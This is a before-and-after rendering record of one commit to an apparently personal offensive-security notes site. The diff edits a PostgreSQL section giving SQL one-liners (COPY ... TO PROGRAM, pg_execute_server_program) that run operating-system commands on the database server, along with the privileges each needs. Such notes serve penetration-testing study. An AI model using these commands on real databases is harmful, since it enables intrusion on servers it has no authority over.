

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/DatabaseAttacks.md, in a window 1280 px wide and 900 px high, scrolled down 2296 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
updated postgres cmd execution notes

```diff
--- a/markdown/DatabaseAttacks.md
+++ b/markdown/DatabaseAttacks.md
@@ -105,7 +105,7 @@
 
 ## PostgreSQL
 - Use `psql` for to connect to PostgreSQL databases
-- Command execution with `COPY mytable TO PROGRAM 'whoami';`
+- Command execution with `COPY (SELECT '') TO PROGRAM 'bash -c "whoami"';`
 	- Requires superuser
 - Command execution with `SELECT pg_execute_server_program('id');`
 	- This won't require superuser, but will require `pg_execute_server_program`
```
